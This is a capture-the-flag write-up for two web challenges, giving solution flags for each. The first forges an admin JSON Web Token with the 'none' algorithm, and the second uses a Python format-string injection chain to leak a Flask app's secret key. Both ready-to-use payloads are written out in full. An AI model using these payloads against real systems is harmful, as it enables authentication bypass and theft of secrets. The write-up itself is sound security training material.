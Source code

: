 ```javascript
let secret = crypto.randomBytes(32)
cookie = jwt.sign({perms:"user",secretid:secrets.length,rolled:res.locals.rolled?"yes":"no"}, secret, {algorithm: "HS256"});
secrets.push(secret);
```

The cookie looks like:
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "perms": "user",
  "secretid": 1394,
  "rolled": "no",
  "iat": 1555925889
}
```

By providing the cookie: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJwZXJtcyI6ImFkbWluIiwic2VjcmV0aWQiOiJyYW5kb21zdHIiLCJyb2xsZWQiOiJubyJ9.` which after decode looks like

```json
{
  "typ": "JWT",
  "alg": "none"
}
{
  "perms": "admin",
  "secretid": "randomstr",
  "rolled": "no"
}
```
We will get the flag, becasue `secrets["randomstr"]` will return `undefined` and we set the `algorithm` to `none`.

The flag is: **actf{defund_ate_the_cookies_and_left_no_sign}**

# Madlibbin
In the challenge we could insert a template string that will be interpreted in Python's `"".format(args=request.args)` function. So the string `{args}` will return `ImmutableMultiDict([])`. The goal was to read `app.secret_key` value. 

By running the server locally and using the script from https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py, I found out the chain of properties that led to `Flask.app` object `{args.__class__.__weakref__.__objclass__._iter_hashitems.__globals__[__loader__].__class__.__weakref__.__objclass__.get_data.__globals__[__loader__].exec_module.__globals__[__builtins__][__build_class__].__self__.copyright.__class__._Printer__setup.__globals__[sys].modules[flask].current_app.secret_key}`.

And the flag is: **actf{traversed_the_world_and_the_seven_seas}**
